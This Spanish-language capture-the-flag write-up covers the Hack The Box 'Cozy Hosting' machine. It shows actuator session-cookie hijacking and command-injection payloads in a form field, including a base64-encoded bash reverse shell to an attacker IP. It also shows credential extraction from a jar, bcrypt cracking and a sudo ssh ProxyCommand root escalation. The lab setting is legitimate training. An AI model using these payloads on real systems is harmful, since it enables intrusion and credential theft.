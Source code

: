 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-the-box/cozy-hosting/"}
---
```


# Enumeración

## Puertos
Se realiza un escaneo de puertos y servicios a la IP de la máquina usando nmap con el comando:
```sh
sudo nmap -sCV -vvv -A -T5 -p- 10.10.11.230
```
Se encuentran abiertos los puertos 22 y 80.
Se realiza un escaneo enfocado a estos puertos de nuevo con nmap:
```sh
sudo nmap -sCV -A -p22,80 10.10.11.230
```

**22/tcp open  ssh**     syn-ack ttl 63 **OpenSSH 8.9p1 Ubuntu 3ubuntu0.3** (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
	|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
	|ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
**80/tcp open  http**    syn-ack ttl 63 **nginx 1.18.0** (**Ubuntu**)
	|http-title: Cozy Hosting - Home
	|http-server-header: nginx/1.18.0 (Ubuntu)
	|http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
	|http-methods:
	|**Supported Methods: GET HEAD OPTIONS**

Encontramos información como la versión del ssh, el puerto 80 usa nginx
## Puerto 80
Se realiza un escaneo al puerto 80 usando "whatweb".
```sh
whatweb 10.10.11.230
```
La parte que interesa es:
RedirectLocation[**http://cozyhosting.htb**]
Por lo tanto hay que agregar la página al archivo "/etc/hosts" usando el comando:
```sh
sudo echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Al realizar fuzzing no se encontró información relevante.

Al visualizar el error 404 en una página errónea, la página muestra información útil.
![Pasted image 20240224150700.png|700](/img/user/Pasted%20image%2020240224150700.png)
*This application has no explicit mapping for /error, so you are seeing this as a fallback.*
El texto de error, sirve para buscar información acerca del mismo en la web.

Se encuentra que el error está asociado a una tecnología llamada **spring boot**.

Conociendo la tecnología, se realiza un fuzzing más específico a la página usando wfuzz.
```sh
wfuzz -c --hc=403,404 -t 4 -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ
```

Se encuentran varios subdirectorios:
"actuator/env", "actuator", "actuator/env/lang", "actuator/health", "actuator/env/path", "**actuator/sessions**", "actuator/mappings", "actuator/beans"
# Ganando acceso
## Reemplazo de cookie
Se accede a "actuator/sessions", en el que se encuentra información relevante de un usuario y su cookie de sessión:
![Pasted image 20240224151423.png|700](/img/user/Pasted%20image%2020240224151423.png)

Al entrar a la página cozyhosting.htb/login
Se presenta una página de inicio de sesión, al rellenar los campos de uduario y contraseña con cualquier texto y reemplazar la cookie de la página por la encontrada anteriormente de "kanderson", se recarga la página.
![Pasted image 20240224164342.png|700](/img/user/Pasted%20image%2020240224164342.png)
Esto permite el acceso a la página de administrador: cozihosting.htb/admin
En la cual, se encuentran dos campos, "Hostname" y "Username"
![Pasted image 20240224174614.png|700](/img/user/Pasted%20image%2020240224174614.png)
## Capturando la solicitud
Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.
Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.
![Pasted image 20240224175147.png|700](/img/user/Pasted%20image%2020240224175147.png)
Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.
## Probando PING
Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:
```sh
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:
```sh
sudo tcpdump ip proto \\icmp -i tun0
```
Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:
![Pasted image 20240224180231.png|700](/img/user/Pasted%20image%2020240224180231.png)
## Ejecutando la reverse shell
Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
```sh
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:
```sh
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"
![Screenshot_20240224_184639.png](/img/user/Screenshot_20240224_184639.png)

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.
![Pasted image 20240226222427.png](/img/user/Pasted%20image%2020240226222427.png)

Al listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.
Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:
```python
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.
```sh
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
```sh
unzip cloudhosting-0.0.1.jar
```

Acceder a la carpeta /BOOT-INF/classes y leer el archivo "application.properties"
```sh
cat application.properties
```
Encontramos las siguientes credenciales, nombre de la base de datos  y que es una base de datos "postgresql".
spring.datasource.url=jdbc:**postgresql**://localhost:5432/**cozyhosting**
spring.datasource.username=**postgres**
spring.datasource.password=**Vg&nvzAQ7XxR**

Ingresamos a la base de datos con los siguientes datos e ingresamos la contraseña cuando se requiera.
```sh
psql -h 127.0.0.1 -U postgres -d cozyhosting
```

Listamos las tablas
![Pasted image 20240226215038.png|400](/img/user/Pasted%20image%2020240226215038.png)

Mostramos el contenido de las columnas de la tabla `user`
![Pasted image 20240226215454.png|700](/img/user/Pasted%20image%2020240226215454.png)

Teniendo los hashes de las contraseñas, podemos usar fuerza bruta para descifrar el de el usuario `admin` que nos interesa más. Para esto se puede usar `johntheripper`
```sh
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
El tipo de hash es bcrypt.
![Pasted image 20240226221711.png|700](/img/user/Pasted%20image%2020240226221711.png)

Ingresamos mediante `ssh` usando la contraseña y el usuario `josh`
```sh
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:
![Pasted image 20240226223120.png|400](/img/user/Pasted%20image%2020240226223120.png)
# Escalada de privilegios
Probamos si ejecutar algún comando como root:
```sh
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.
Por lo tanto escalamos privilegios usando ssh de la siguiente manera:
```sh
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![Pasted image 20240226231132.png|400](/img/user/Pasted%20image%2020240226231132.png)